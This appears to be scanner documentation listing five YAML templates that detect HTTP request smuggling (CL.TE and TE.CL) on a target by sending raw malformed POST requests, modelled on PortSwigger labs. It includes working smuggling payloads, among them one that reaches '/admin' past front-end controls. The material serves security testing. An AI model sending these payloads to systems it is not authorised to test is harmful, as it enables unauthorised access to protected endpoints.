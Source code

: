 ### Basic CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

### Basic TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: TE-CL-http-smuggling

info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

### Frontend bypass CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: smuggling-bypass-front-end-controls-cl-te

info:
  name: HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/admin/delete?username=carlos")'
```

### Differential responses based CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-cl-te-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

### Differential responses based TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-te-cl-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```
